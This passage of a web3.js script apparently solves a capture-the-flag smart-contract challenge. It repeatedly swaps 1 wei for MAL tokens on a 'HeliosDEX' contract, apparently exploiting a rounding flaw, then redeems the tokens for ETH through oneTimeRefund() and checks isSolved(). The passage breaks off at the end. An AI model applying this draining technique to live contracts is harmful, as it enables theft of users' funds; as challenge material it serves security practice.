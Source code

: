 ```js
  // 5. Retrieve the HeliosDEX address
  const heliosDexAddress = await setupContract.methods.TARGET().call();
  console.log("HeliosDEX Address:", heliosDexAddress);

  // 6. Instantiate the HeliosDEX contract
  const heliosDex = new web3.eth.Contract(heliosDexABI, heliosDexAddress);

  // 7. Retrieve the MAL token address
  const malakarEssenceAddr = await heliosDex.methods.malakarEssence().call();
  console.log("MalakarEssence Token Address:", malakarEssenceAddr);

  // 8. Instantiate the MAL contract
  const malakarEssence = new web3.eth.Contract(erc20ABI, malakarEssenceAddr);

  // 9. Check initial MAL balance
  let myMalBalance = await malakarEssence.methods.balanceOf(account.address).call();
  console.log("Initial MAL balance:", myMalBalance);

  // 10. Exploit: call swapForMAL() many times with 1 wei each
  console.log("Performing repeated swaps of 1 wei for MAL...");
  const swapCount = 100;

  for (let i = 0; i < swapCount; i++) {
    await heliosDex.methods.swapForMAL().send({
      from: account.address,
      value: 1,  // 1 wei
      gas: 200000
    });
    process.stdout.write(".");
  }
  console.log("\nSwaps complete!");

  // 11. Check MAL balance
  myMalBalance = await malakarEssence.methods.balanceOf(account.address).call();
  console.log("MAL balance after exploit:", myMalBalance);

  // 12. Approve HeliosDEX to spend MAL
  console.log("Approving MAL for refund...");
  await malakarEssence.methods.approve(heliosDexAddress, myMalBalance).send({
    from: account.address,
    gas: 100000
  });

  // 13. oneTimeRefund(): MAL => Ether
  console.log("Requesting oneTimeRefund of MAL for ETH...");
  await heliosDex.methods.oneTimeRefund(malakarEssenceAddr, myMalBalance).send({
    from: account.address,
    gas: 200000
  });

  // 14. Check final Ether balance
  const finalBalanceWei = await web3.eth.getBalance(account.address);
  console.log("Final ETH balance (wei):", finalBalanceWei);
  const finalBalanceEth = web3.utils.fromWei(finalBalanceWei, "ether");
  console.log("Final ETH balance (ETH):", finalBalanceEth);

  // 15. Check if challenge is solved
  const isSolved = await setupContract.methods.isSolved().call();
  console.log("isSolved()?", isSolved);
}

main().catch((err) => {
  console.error(err);
```